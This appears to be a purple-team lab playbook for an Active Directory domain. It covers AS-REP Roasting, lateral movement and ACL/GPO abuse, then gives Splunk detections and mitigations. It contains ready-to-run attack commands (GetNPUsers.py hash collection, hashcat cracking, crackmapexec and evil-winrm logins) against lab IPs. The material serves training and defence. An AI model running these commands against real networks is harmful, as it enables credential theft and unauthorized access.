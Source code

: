 # 02) AS-REP Roasting → Lateral → ACL/GPO Abuse
**ATT&CK:** T1558.004 (AS-REP Roasting), T1021 (Remote Services), T1098 (Account Manipulation)  
**Scope:** Authorized lab/assessment only.

## Objective
Identify users with **Do not require Kerberos preauthentication** enabled, obtain crackable AS-REP material, laterally move, and (if misconfig exists) abuse ACL/GPO to escalate impact.

## Environment (assumed)
- **Domain:** `DRAGONBALL.local`
- **DC:** `DC01` — **10.8.10.225**
- **Target host (example):** `SVC01` — **10.8.10.15**
- **Operator box:** `KALI` — **10.8.10.50**

## Procedure (High-Level)
1. Enumerate users with `DONT_REQ_PREAUTH`.  
2. Request AS-REP material and analyze offline.  
3. Validate recovered credentials and attempt lateral movement (WinRM/SMB).  
4. If permissions allow, make controlled changes (e.g., GPO/ACL) **in the lab** to demonstrate risk.

> **Legal/Ethical:** Commands here are for **authorized labs** only.

## Doc-Only Command Examples (authorized lab)
```bash
# 1) Pull AS-REP for users without preauth (users.txt = potential usernames)
GetNPUsers.py DRAGONBALL.local/ -dc-ip 10.8.10.225 -usersfile users.txt -no-pass > asrep.txt

# 2) Offline analysis of AS-REP material
hashcat -m 18200 asrep.txt /wordlists/rockyou.txt

# 3) Validate access / lateral (example host SVC01 over WinRM)
crackmapexec winrm 10.8.10.15 -d DRAGONBALL.local -u <roasted_user> -p '<cracked>'
evil-winrm -i 10.8.10.15 -u <roasted_user> -p '<cracked>'
```
## Telemetry to Collect

- **Kerberos:** **4768/4771** spikes (pre-auth failures/anomalies)
- **Logons:** **4624** (Type **3/10**) from new sources
- **Directory changes:** **5136/5137** (ACL/GPO edits)

## SIEM Analytics (Splunk examples)

```spl
index=wineventlog (EventCode=4768 OR EventCode=4771)
| stats count by TargetUserName, IpAddress
| where count > 50
index=wineventlog (EventCode=5136 OR EventCode=5137)
| stats values(SubjectUserName) values(ObjectName) count by EventCode
| where count > 0
```
## Mitigations

- **Remove** `DONT_REQ_PREAUTH` from all user accounts.
- **Harden passwords:** enforce strong policy; screen for weak/reused passwords; enable **MFA** for high-risk users.
- **Change control:** use **AGPM**, approvals, and alerting on Tier-0/1 objects (**5136/5137**).
- **Monitoring:** watch for unusual **4768/4771** patterns tied to specific users/IPs.
